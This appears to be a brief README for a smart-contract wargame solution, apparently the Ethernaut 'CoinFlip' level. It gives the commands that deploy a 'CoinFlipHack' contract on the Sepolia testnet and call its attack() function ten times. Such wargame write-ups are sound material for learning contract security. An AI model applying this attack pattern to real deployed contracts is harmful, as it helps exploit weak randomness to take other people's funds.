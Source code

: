 # CoinFlip Solution

Deploy:

```bash
forge create CoinFlipHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args <instanceAddress>
```

Run 10 times:

```bash
cast send <coinFlipHackAddress> "attack()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
